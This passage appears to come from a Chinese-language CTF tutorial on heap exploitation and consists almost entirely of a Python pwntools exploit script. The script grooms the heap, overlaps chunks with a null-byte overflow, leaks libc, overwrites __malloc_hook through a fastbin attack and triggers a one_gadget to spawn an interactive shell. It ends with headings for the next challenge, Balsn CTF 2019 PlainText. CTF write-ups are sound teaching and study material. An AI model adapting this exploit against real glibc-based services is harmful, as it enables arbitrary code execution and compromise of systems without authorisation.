 ```python


def main():
    # avoid complicity of structure malloc
    for i in range(10):
        put(str(i), 0x38, str(i))
        
    for i in range(10):
        delete(str(i))

    # allocate what we want in order
    put('1', 0x200, '1')
    put('2', 0x50, '2')
    put('5', 0x68, '6')
    put('3', 0x1f8, '3')
    put('4', 0xf0, '4')
    put('defense', 0x400, 'defense-data')


    # free those need to be freed
    delete('5')
    delete('3')
    delete('1')

    delete('a' * 0x1f0 + p64(0x4e0))

    delete('4')

    put('0x200', 0x200, 'fillup')
    put('0x200 fillup', 0x200, 'fillup again')

    libc_leak = u64(get('2')[:6].ljust(8, '\x00'))
    p.info('libc leak: 0x%x' % libc_leak)
    
    libc_base = libc_leak - 0x3c4b78

    p.info('libc_base: 0x%x' % libc_base)

    put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))
    put('prepare', 0x68, 'prepare data')

    one_gadget = libc_base + 0x4526a
    put('attack', 0x68, 'a' * 3 + p64(one_gadget))

    p.sendline('DEL') # malloc(8) triggers one_gadget

    p.interactive()

if __name__ == '__main__':
    main()
```
## 实例 3 : Balsn_CTF_2019-PlainText
### 漏洞利用分析
